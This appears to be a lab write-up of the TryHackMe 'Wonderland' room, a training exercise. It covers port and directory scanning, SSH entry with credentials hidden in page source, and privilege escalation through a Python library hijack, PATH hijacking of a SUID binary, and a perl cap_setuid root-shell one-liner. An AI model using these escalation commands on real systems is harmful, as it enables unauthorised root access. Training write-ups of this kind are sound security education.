

[Home](../../index.md)

# TryHackMe: Wonderland

https://tryhackme.com/room/wonderland

---
## Enumeration

Port scans

```
┌──(kali㉿kali)-[~/tryhackme/wonderland]
└─$ rustscan -a 10.10.197.231 -r 1-65535 

Open 10.10.197.231:22
Open 10.10.197.231:80

┌──(kali㉿kali)-[~/tryhackme/wonderland]
└─$ nmap -p 22,80 -sV -sC 10.10.197.231
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 21:12 EST
Nmap scan report for 10.10.197.231
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not much to work with.  Let's start looking at the website.



Running `feroxbuster` starts to show something peculiar.

```
┌──(kali㉿kali)-[~/tryhackme/wonderland]
└─$ sudo feroxbuster -u http://10.10.197.231 -w /usr/share/wordlists/dirb/common.txt -x txt,php    
[sudo] password for kali: 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.197.231
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [txt, php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301        0l        0w        0c http://10.10.197.231/img
301        0l        0w        0c http://10.10.197.231/index.html
301        0l        0w        0c http://10.10.197.231/r
301        0l        0w        0c http://10.10.197.231/r/a
301        0l        0w        0c http://10.10.197.231/img/index.html
301        0l        0w        0c http://10.10.197.231/r/a/b
301        0l        0w        0c http://10.10.197.231/r/a/b/b
301        0l        0w        0c http://10.10.197.231/r/index.html
301        0l        0w        0c http://10.10.197.231/r/a/index.html
301        0l        0w        0c http://10.10.197.231/r/a/b/index.html
[####################] - 1m     69195/69195   0s      found:10      errors:0      
[####################] - 56s    13839/13839   246/s   http://10.10.197.231
[####################] - 56s    13839/13839   245/s   http://10.10.197.231/img
[####################] - 56s    13839/13839   243/s   http://10.10.197.231/r
[####################] - 56s    13839/13839   243/s   http://10.10.197.231/r/a
[####################] - 56s    13839/13839   243/s   http://10.10.197.231/r/a/b
```

The directories are clearly starting to spell out `rabbit`.

Browsing to `http://10.10.197.231/r/a/b/b/i/t/` and viewing the source reveals what appear to be credentials in a &lt;p&gt; tag that is set to not display.

```
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:<redacted></p>
    
</body>
```

---
## Exploitation (barely)

These credentials get us SSH access, but we see root.txt instead of user.txt and there are multiple users whom we cannot access.

```
┌──(kali㉿kali)-[~/tryhackme/wonderland]
└─$ ssh alice@10.10.197.231                                                                    

...

Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ ls /home
alice  hatter  rabbit  tryhackme
alice@wonderland:~$ ls /home/hatter
ls: cannot open directory '/home/hatter': Permission denied
alice@wonderland:~$ ls /home/rabbit
ls: cannot open directory '/home/rabbit': Permission denied
alice@wonderland:~$ ls /home/tryhackme
ls: cannot open directory '/home/tryhackme': Permission denied
```

However, when we read the hint, it says "Everything is upside down here."

```
alice@wonderland:~$ cat /root/user.txt
<redacted>
```

---
## Lateral Movement

`sudo -l` reveals that we may run the python script in our home directory as `rabbit`

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

This script outputs random lines from a poem.  We can't edit the script, and everything is defined in `sudo -l` with absolute paths, but the script imports the `random` python library, and does not use an absolute path.  

We can create our own `random.py` in our home directory to get the script to execute our code as `rabbit`.

```
alice@wonderland:~$ vim random.py
alice@wonderland:~$ cat random.py
import pty

pty.spawn("/bin/bash")
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

---
## More Lateral Movement

There's a binary in `rabbit`'s home directory with the SUID set and owned by root.

```
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 19 Jan 2022 16:18:51 +0000
Ask very nicely, and I will give you some tea while you wait for him
please
Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

This script appears to be running the `date` command.  

If we `cat` out the file it is shown that this specific command is run.

```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

`date` is being used without an absolute path, so we should be able to exploit this to get root.

```
rabbit@wonderland:~$ cat /tmp/date
#!/bin/bash
/bin/sh
rabbit@wonderland:~$ export PATH=/tmp:$PATH
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by $ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

---
## More Lateral Movement

`hatter` left their password in /home/hatter, for easier access.

```
$ cd /home/hatter
$ ls
password.txt
$ cat password.txt
<redacted>
```

Following more Linux enumeration, we find that there is a capability set on perl that allows us to get root access (gtfobins.gith)

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
<redacted>
```